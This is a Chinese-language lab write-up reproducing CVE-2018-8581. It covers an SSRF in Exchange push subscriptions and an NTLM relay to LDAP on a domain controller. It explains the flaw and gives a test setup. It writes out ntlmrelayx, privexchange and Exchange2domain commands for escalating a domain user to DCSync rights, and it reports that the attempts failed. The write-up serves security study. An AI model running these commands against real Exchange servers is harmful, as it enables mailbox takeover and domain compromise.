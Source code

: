 # CVE-2018-8581

## 一、原理

Exchange服务器的推送订阅接口存在SSRF，它允许为任何用户推送订阅所指定的URL，当Exchange尝试连接用户指定的URL时候，将会用`CredentialCache.DefaultCredentials`方式进行。

其中`CredentialCache.DefaultCredentials`是以最高权限`SYSTEM`权限运行，通过SSRF发送Exchange的最高权限net NTLM给攻击者，注意SSRF回连Attack是以MAIL权限。

+ 攻击1

  在调用接口时候，使用其他用户SID来伪造攻击，从而可以达到收取他人邮件，模拟他人发送邮件。攻击者利用反射攻击回到Exchange服务器去调用接口，这个时候是最高权限的调用。

+ 攻击2

  通过NTLM Relay中`HTTP -> LDAP`协议的转变，进而攻击域控。由于Exchange角色权限具有修改writeDACL权限，可以将普通域用户赋予具有DCSync权限，从而Dump域控中的Hash信息。

## 二、测试环境

windows 2012：域控 192.168.15.161

windows 2012+Exchange 2016： 邮件服务器 192.168.15.158

windows7：攻击机 192.168.15.130

域用户：geroge (也是邮件服务的用户)

## 三、复现-攻击2

### 3.1 攻击机开启服务，进行监听

`python ntlmrelayx.py -t ladp://192.168.15.161 --escalate-user geroge`

![](.\pictures\cve_2018_8581_ntlmrelay1.PNG)

等待邮件服务器回连。

### 3.2 向邮件服务器指定推送订阅的URL

`python privexchange.py -ah 192.168.15.130 192.168.15.158 -u geroge -d park.com`

输入用户口令后得到如下结果

![](.\pictures\cve_2018_8581_ews1.PNG)

脚本运行成功。抓包分析如下：

![](.\pictures\cve_2018_8581_ews2.PNG)

攻击机利用Exchange Web Services(EWS)的推送订阅功能强制Exchange服务器向任意指定的URL进行NTLM认证，这一步由563号数据包完成。在进行推送订阅时，攻击机要向Exchange服务器进行认证（wireshark中563号数据包应该是在562号数据包前的）因此，攻击者需要一个合法的普通用户身份。696号数据包为服务器的响应数据包。

### 3.3 邮件服务器回连攻击机

推送订阅成功后，稍等片刻，攻击机监听程序即收到服务器的回连数据包

![](.\pictures\cve_2018_8581_ntlmrelay2.PNG)

但是连接失败，提示未找到LDAP客户端协议，wireshark抓包分析，

![](.\pictures\cve_2018_8581_ntlmrelay3.PNG)

4187号数据包：邮件服务器回连攻击机；

4189号数据包：攻击机提示邮件服务器使用NTLM进行认证；

4196号数据包：邮件服务器发起NTLM协商；

4202号数据包：攻击机给邮件服务器重定向响应，这里不甚明白，为何如此，使用另外一个利用脚本即可（https://github.com/Ridter/Exchange2domain）。

### 3.4 更换利用脚本

`python Exchange2domain.py -ah 192.168.15.130 -u geroge -d park.com -th 192.168.15.161 192.168.15.158`

![](.\pictures\cve_2018_8581_ntlmrelay4.png)

仍然未能成功，提示在更新ACL（access control list）时发生了错误，抓包分析,

![](.\pictures\cve_2018_8581_ntlmrelay5.png)

ntlm中继成功，攻击机仿冒“PARK\MAIL$”认证成功，然而在修改ACL时权限不够。

![](.\pictures\cve_2018_8581_ntlmrelay6.png)

完整的wireshark数据包(./resources/cve_2018_8581_exchange2domain.pcapng)

值得注意的是，其他人成功的攻击案例中在NTLM中继成功后会先Create User，然后再Modifying domain ACL。

将计算机账户MAIL添加到Exchange Windows Permissions组中并重启域控，仍然提示权限不够。

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]文末提到去除Exchange默认允许修改ACL的权限后便不再有权限更改ACL，猜测

## 四、复现-攻击1

原理类似，利用ntlm中继攻击邮件服务器，同样没有成功。

## 参考资料

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]



